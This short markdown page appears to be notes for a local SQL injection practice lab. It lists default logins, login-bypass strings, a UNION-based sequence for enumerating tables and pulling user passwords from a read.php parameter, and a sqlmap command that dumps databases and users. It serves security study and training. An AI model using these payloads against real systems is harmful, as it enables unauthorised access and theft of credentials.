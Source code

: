 # SQL Injection

## Login
[Reference][1]

  * admin:password
  * user:123

```
anything' OR 'x'='x'
anything' OR 1='1
```

## Read
[Reference][3]

Test for injection
```
read.php?id=1 OR 1=1
```

Find the correct number of columns
```
read.php?id=1 ORDER BY 1....
```

Find table names
```
read.php?id=1 UNION SELECT TABLE_NAME,2 FROM information_schema.tables
```

Query the data
```
read.php?id=1 UNION SELECT id,password from users
```

### SqlMap
[Reference][2]
```
python sqlmap.py -u http://localhost:5100/sqli/read.php?id=1 -f --banner --dbs --users --dump
```

[1]: http://www.unixwiz.net/techtips/sql-injection.html
[2]: https://github.com/sqlmapproject/sqlmap/wiki/Usage
[3]: http://www.sqlinjection.net/union/
